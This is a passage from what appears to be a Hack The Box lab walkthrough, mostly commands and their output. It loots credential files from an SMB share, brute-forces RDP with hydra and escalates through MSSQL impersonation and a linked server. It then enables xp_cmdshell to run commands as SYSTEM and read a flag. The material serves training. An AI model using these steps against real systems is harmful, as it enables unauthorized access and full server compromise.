# 		7706623 blocks of size 4096. 3141899 blocks available

smb: \IT\Fiona\> mget creds.txt
Get file creds.txt? yes
# getting file \IT\Fiona\creds.txt of size 118 as creds.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

```bash 
cat creds.txt
```
```bash
# Windows Creds

# kAkd03SA@#!
# 48Ns72!bns74@S84NNNSl
# SecurePassword!
# Password123!
# SecureLocationforPasswordsd123!!
```

</details>

<details>
<summary><h4>John</h4></summary>

Listing John

```bash 
smb: \IT\John\> dir
#   .                                   D        0  Thu Apr 21 16:15:09 2022
#   ..                                  D        0  Thu Apr 21 16:15:09 2022
#   information.txt                     A      101  Thu Apr 21 16:14:58 2022
#   notes.txt                           A      164  Thu Apr 21 16:13:40 2022
#   secrets.txt                         A       99  Thu Apr 21 16:15:55 2022

# 		7706623 blocks of size 4096. 3141073 blocks available

smb: \IT\John\> mget information.txt notes.txt secrets.txt
Get file information.txt? yes
# getting file \IT\John\information.txt of size 101 as information.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
Get file notes.txt? yes
# getting file \IT\John\notes.txt of size 164 as notes.txt (0.6 KiloBytes/sec) (average 0.5 KiloBytes/sec)
Get file secrets.txt? yes
# getting file \IT\John\secrets.txt of size 99 as secrets.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

```bash 
cat information.txt
```
```bash 
# To do:
# - Keep testing with the database.
# - Create a local linked server.
# - Simulate Impersonation.
```
```bash 
cat notes.txt
```
```bash 
# Hack The Box is a massive, online cybersecurity training platform, allowing individuals, companies, universities and all kinds of organizations around the world ...
```
```bash 
cat secrets.txt
```
```bash 
# Password Lists:

# 1234567
# (DK02ka-dsaldS
# Inlanefreight2022
# Inlanefreight2022!
# TestingDB123
```

</details>

<details>
<summary><h4>Simon</h4></summary>

Listing Simon

```bash 
smb: \IT\Simon\> dir
#   .                                   D        0  Thu Apr 21 16:16:07 2022
#   ..                                  D        0  Thu Apr 21 16:16:07 2022
#   random.txt                          A       94  Thu Apr 21 16:16:48 2022

# 		7706623 blocks of size 4096. 3141070 blocks available

smb: \IT\Simon\> mget random.txt
Get file random.txt? yes
# getting file \IT\Simon\random.txt of size 94 as random.txt (0.3 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

```bash 
cat random.txt
```
```bash 
# Credentials

# (k20ASD10934kadA
# KDIlalsa9020$
# JT9ads02lasSA@
# Kaksd032klasdA#
# LKads9kasd0-@
```

</details>

</details>

<details>
<summary><h3>Brute-force</h3></summary>

```bash 
hydra -l fiona -P ./creds.txt <TARGET_IP> rdp
```
```bash 
# Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

# Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-24 21:43:27
# [WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
# [INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
# [WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
# [DATA] max 4 tasks per 1 server, overall 4 tasks, 7 login tries (l:1/p:7), ~2 tries per task
# [DATA] attacking rdp://<TARGET_IP>:3389/
[3389][rdp] host: <TARGET_IP>   login: fiona   password: <PASSWORD>
# 1 of 1 target successfully completed, 1 valid password found
# Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-24 21:43:29
```

</details>

<details>
<summary><h3>MSSQL</h3></summary>

```bash 
sqsh -S <TARGET_IP> -U '.\\fiona' -P '<PASSWORD>' -h
```
```bash 
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> SELECT srvname, isremote FROM sysservers
2> go
        WINSRV02\SQLEXPRESS                        
               1

        LOCAL.TEST.LINKED.SRV                                        
               0

1> SELECT distinct b.name
FROM sys.server_permissions a 
INNER JOIN sys.server_principals b 
ON a.grantor_principal_id = b.principal_id 
WHERE a.permission_name = 'IMPERSONATE'
2> go

        john
        simon  

1> EXECUTE AS LOGIN = 'john'
SELECT SYSTEM_USER 
SELECT IS_SRVROLEMEMBER('sysadmin') 
2> go
        john                                                           
           0

1> SELECT * FROM openquery("LOCAL.TEST.LINKED.SRV", 'SELECT is_srvrolemember(''sysadmin'')')
2> go
           1

1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> go

        WINSRV02\SQLEXPRESS      

        Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)

        testadmin                       
                  1

1> EXECUTE('
2>  EXEC sp_configure ''show advanced options'', 1;
3>  RECONFIGURE;
4>  EXEC sp_configure ''xp_cmdshell'', 1;
5>  RECONFIGURE;
6>  EXEC xp_cmdshell ''whoami''
7> ') AT [LOCAL.TEST.LINKED.SRV];
8> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

        nt authority\system   

1> EXECUTE('EXEC xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV];
2> go

        <FLAG>      
```

</details>

</details>

</details>

---

📘 **Next step:** Continue with [PIVOTING-TUNNELING](./09-pivoting-tunneling.md)